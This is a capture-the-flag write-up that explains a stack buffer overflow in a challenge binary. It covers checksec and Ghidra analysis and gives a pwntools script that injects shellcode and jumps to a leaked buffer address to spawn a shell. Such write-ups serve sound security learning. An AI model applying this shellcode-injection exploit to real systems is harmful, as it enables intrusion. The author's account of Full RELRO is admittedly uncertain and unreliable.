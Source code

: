 # Reconnaissance
## C Review
The `main()` function looks pretty plain, the use of `fgets()` protects the `sample` buffer from overflowing, so there is no vulnerability in that. But the last part of `main()` calls another function, `vuln()`. `vuln()` calls `gets()` to write into the `buf` variable, allowing us to over flow, which is an obvious attack vector. However, there is no function call to overwrite here, and no `win()` function to change the return address to. But, the `vuln()` does print something, and it leaks the address of `buf`! What this means is that we can put our own shellcode into `buf` and then overflow into the return address, changing this to the address of `buf` so that we call our own code.

## Binary Analysis
First, lets check how the ELF runs with the `checksec` command:
>$checksec ./challenge/chall_3

>Arch:     amd64-64-little  
>RELRO:    Full RELRO  
>Stack:    No canary found  
>NX:       NX disabled  
>PIE:      PIE enabled  
>RWX:      Has RWX segments  

A couple things to note here: firstly, stack canary is disabled which will make things easier and NX is disabled which means there is no protection stopping our own code from executing. PIE is enabled, so we will need to use the address leaked in the `vuln()` function to know where `buf` is. Additionally there are RWX segments, which is what allows our code to execute. There is also Full RELRO, which I don't fully understand myself, but I believe that it prevents buffer overflow attacks from going to other FUNCTIONS, but won't stop us from redirecting the return address to inside of the buffer.

Next, lets decompile the executable file we were given with Ghidra to get an idea of what the stack looks like in the `vuln()` function.  

![Ghidra Vuln Function Image](writeUpFiles/ghidra1.png)  

Looking into Ghidra we can see that `local_78` is the buffer, and it is located at memory address -0x78 on the stack--which means it has a length of 112 bytes. That's the most significant information we can get from Ghidra, since PIE is enabled and memory addresses here will not be absolute.  

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_3")

context.binary = EXE
context.terminal = ['xterm', '-e']
context.log_level = "DEBUG"

def conn(useExe=False):
	if useExe:
		# r = gdb.debug(EXE.path, "\n".join(breakpoints))
		r = process([EXE.path])
	else:
		r = remote('pwn.osucyber.club',13373)
	return r
```
The `ELF()` function from `pwn` allows us to add information about the binary to our `pwn` context, and we set the `log_level` to "DEBUG" so that we will get verbose output from all of the functions describing what was received or sent. The `conn()` function being set up here simply allows us to minimally change the program to run remotely when we are finished with testing. Calling `conn(True)` connects to the local installation of the server executable, whose path is written in the definition of the `EXE` variable. Then once our testing is completed, we can call `conn(False)` to make a connection to the remote server.

Next, we get the input from the process and find the address of `buf`:
```{python}
io = conn(False)
# Wait for the process to send "One more time" and respond to move onto vuln()
io.recvline()
io.send(b'a\n')

# Wait for the program to leak the address of the buffer we are writing to:
io.recvuntil("No really, it was pretty good before COVID: ")
data = io.recvline()[:-1]
buf_address = int(data, 16)
```

Finally, we craft and send our payload:
```{python}
# Create a payload with an offset of 120 bytes then the address of the buffer send it, and open an 
# interactive terminal -- The system is 64-bit so we need a 64-bit pointer to the address of buf.
# This offset is 120 bytes because buf is 112 bytes, and the base pointer between the buffer and
# the return address is an additional 8 bytes (64-bit system)
payload = asm(shellcraft.sh())
payload += b'a'*(120-len(payload))
payload += p64(buf_address)+b'\n'
print(len(payload))
io.send(payload)
io.interactive()

io.close()
```

If this spawns a terminal, then our code worked! We can run it again on the server then call `ls` and `cat flag.txt` in the interactive shell!
